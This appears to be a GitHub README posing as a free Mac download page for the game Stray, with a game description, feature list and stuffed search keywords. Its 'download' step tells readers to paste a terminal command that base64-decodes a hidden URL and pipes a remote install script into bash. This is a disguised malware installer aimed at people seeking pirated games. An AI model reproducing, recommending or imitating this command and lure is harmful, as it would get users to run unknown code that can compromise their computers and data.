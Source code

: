 # Stray Download Mac - Immersive Cyberpunk Adventure

![Stray Game Screenshot](https://gaming-cdn.com/images/products/8260/orig/stray-pc-mac-game-steam-europe-and-us-and-canada-cover.jpg)

---

### 🔽 Download Stray for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Stray for Mac?

Stray is an award-winning cyberpunk adventure game that lets you experience a futuristic world through the eyes of a stray cat. Developed by BlueTwelve Studio, this captivating game combines puzzle-solving, exploration, and emotional storytelling with breathtaking visuals. Navigate neon-lit alleyways, interact with mysterious robots, and uncover the secrets of a long-forgotten city.

Unlike traditional adventure games, Stray features authentic feline behaviors - scratch furniture, knock objects off ledges, or curl up for a nap in unexpected places. The game's physics-based movement system makes every jump and landing feel natural, while the detailed cybercity environment reacts dynamically to your actions. With its heartwarming narrative and unique perspective, Stray offers an unforgettable gaming experience that resonates long after the final credits roll.

The Mac version has been specially optimized for both Intel and Apple Silicon processors, delivering smooth performance with high-resolution textures and dynamic lighting effects that bring the cyberpunk world to life like never before.

![Stray Gameplay](https://www.macgamerhq.com/wp-content/uploads/2023/12/MacBook-M3-Pro-Max-Stray-Gameplay.png)

---

## Key Features & Benefits

- 🐾 Play as a realistic stray cat with authentic behaviors  
- 🌆 Explore a stunning cybercity full of secrets  
- 🧩 Solve environmental puzzles with feline agility  
- 🤖 Interact with unique robot characters  
- 🎵 Immersive soundtrack enhancing the cyberpunk atmosphere  
- 🖥 Optimized for Mac (Intel & Apple Silicon)  

Whether you're a cat lover, cyberpunk enthusiast, or adventure game fan, Stray delivers a purr-fect blend of exploration, storytelling, and unique gameplay mechanics.

---

## 🔍 Keywords

Stray for Mac, Stray Mac Download, Stray for Mac Download, Stray Mac, Stray Download Mac, Stray Download for Mac, Stray full version, Mac Download Stray, Download Mac Stray, Download Stray Mac, Download Stray for Mac
